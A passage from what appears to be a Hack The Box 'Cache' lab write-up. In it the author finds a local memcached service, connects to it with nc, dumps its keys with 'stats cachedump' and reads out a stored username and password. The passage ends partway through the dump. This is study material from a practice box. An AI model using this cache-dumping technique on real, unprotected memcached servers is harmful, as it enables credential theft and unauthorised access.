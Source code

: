 ```bash
tcp        0      1 10.10.10.188:39626      8.8.4.4:53              SYN_SENT    -                   
tcp        0      0 127.0.0.1:11211         127.0.0.1:60474         TIME_WAIT   -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.10.188:80         10.10.14.16:46348       ESTABLISHED -                   
udp        0      0 127.0.0.1:48521         127.0.0.53:53           ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
ash@cache:~$ 
```

Running `ps` it becomes clear that memcached is running on port 11211

```
ash@cache:/$  ps fauxwww | grep 11211         
memcache  1085  0.0  0.1 425792  4112 ?        Ssl  15:56   0:01 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash       3157  0.0  0.0  13136  1056 pts/1    S+   18:59   0:00  |       |                   \_ grep --color=auto 11211
ash@cache:/$ 
```

Access the memcached server using nc and dump the cache.

```bash
ash@cache:/$ nc 127.0.0.1 11211
nc 127.0.0.1 11211
version

VERSION 1.5.6 Ubuntu

stats cachedump 1 0           

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

It contains user and password info. Access those using the get command

```bash
get link 
VALUE link 0 21
https://hackthebox.eu
END

get user
VALUE user 0 5
luffy
END

get passwd
VALUE passwd 0 9
0n3_p1ec3
END

get file
VALUE file 0 7
```
